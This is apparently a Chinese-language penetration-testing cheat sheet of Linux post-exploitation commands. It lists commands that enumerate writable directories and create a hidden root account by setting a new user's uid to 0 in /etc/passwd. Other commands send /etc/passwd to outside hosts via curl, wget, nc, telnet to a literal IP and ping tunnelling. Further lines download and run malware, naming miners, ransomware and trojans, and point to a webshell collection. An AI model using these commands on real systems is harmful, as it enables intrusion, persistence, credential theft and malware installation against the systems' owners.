 ```
```

#### 查看系统支持的所有系统命令
```
echo $PATH | awk -F: '{for(i=1;i<=NF;i++){cmd="echo "$i";ls -al "$i;system(cmd)}}'
```

#### 查看所有可写目录
```
ls / | awk '{for(i=1;i<=NF;i++){cmd="echo "$i";touch /"$i"/pentest_writable.tmp";system(cmd)}}'

# 删除测试touch出来的文件
ls / | awk '{for(i=1;i<=NF;i++){cmd="echo "$i";rm /"$i"/pentest_writable.tmp";system(cmd)}}'
```

### 新建系统帐户
```
useradd pter
echo "pter:admin123" | chpasswd
sed -i 's/^\(pter:[^:]\):[0-9]*:[0-9]*:/\1:0:0:/' /etc/passwd
```

### 下载系统文件
```
curl -T /etc/passwd dst_ip:dst_port

curl http://ip:port -F a=@/etc/passwd

nc -lvp port < /etc/passwd

wget --post-data="`cat /etc/passwd`" http://ip:port

wget --post-file=/etc/passwd http://ip:port

telnet 106.14.153.173 2015 < /etc/passwd

cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done
```

### 上传恶意程序/脚本
比如上传nc程序，挖矿病毒，勒索病毒，远程控制木马等
```
wget -O /可写目录 ip:port/malware
wget -P /可写目录 ip:port/malware

chmod 777 /可写目录/malware
/可写目录/malware &
sh -x /可写目录/malware
```

**上传webshell**

webshell可以在 [https://github.com/tennc/webshell](https://github.com/tennc/webshell) 找一个顺手的，比较有名的有webshell三兄弟ASPXSPY、PHPSPY、JSPSPY。
